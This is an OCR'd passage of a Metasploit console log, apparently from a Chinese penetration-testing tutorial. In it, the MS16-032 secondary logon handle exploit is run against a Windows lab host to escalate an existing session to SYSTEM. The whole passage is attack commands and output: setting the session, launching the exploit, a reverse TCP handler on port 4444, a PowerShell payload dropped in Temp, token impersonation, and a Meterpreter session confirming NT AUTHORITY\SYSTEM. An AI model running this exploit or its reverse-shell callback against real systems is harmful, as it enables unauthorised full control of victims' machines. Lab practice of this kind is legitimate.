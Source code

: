 ```
​
----     ---------------  --------  -----------
​
SESSION                   yes       The session to run this module on.
​
​
Exploit target:
​
Id  Name
​
--  ----
​
0   Windows x86
​
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
session => 1
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit 
​
[*] Started reverse TCP handler on 192.168.43.6:4444 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\testuser\AppData\Local\Temp\GLDpeYcGYT.ps1...
[*] Compressing script contents...
[+] Compressed size: 3596
[*] Executing exploit script...
__ __ ___ ___   ___     ___ ___ ___ [*] Sending stage (180291 bytes) to 192.168.43.87
​
|  V  |  _|_  | |  _|___|   |_  |_  |
|     |_  |_| |_| . |___| | |_  |  _|
|_|_|_|___|_____|___|   |___|___|___|

[by b33f -> @FuzzySec]
​
[?] Operating system core count: 4
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1212
​
[*] Sniffing out privileged impersonation token..
​
[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1208
[+] Resuming thread..
​
[*] Sniffing out SYSTEM shell..
​
[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
​
mzCdEBgemRgjV7PHoMA8c4KLG2nLKesP
[+] Executed on target machine.
[*] Meterpreter session 2 opened (192.168.43.6:4444 -> 192.168.43.87:49513) at 2022-06-01 09:30:28 +0800
[+] Deleted C:\Users\testuser\AppData\Local\Temp\GLDpeYcGYT.ps1
​
meterpreter > getuid  //再次查看权限已为system
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
​
```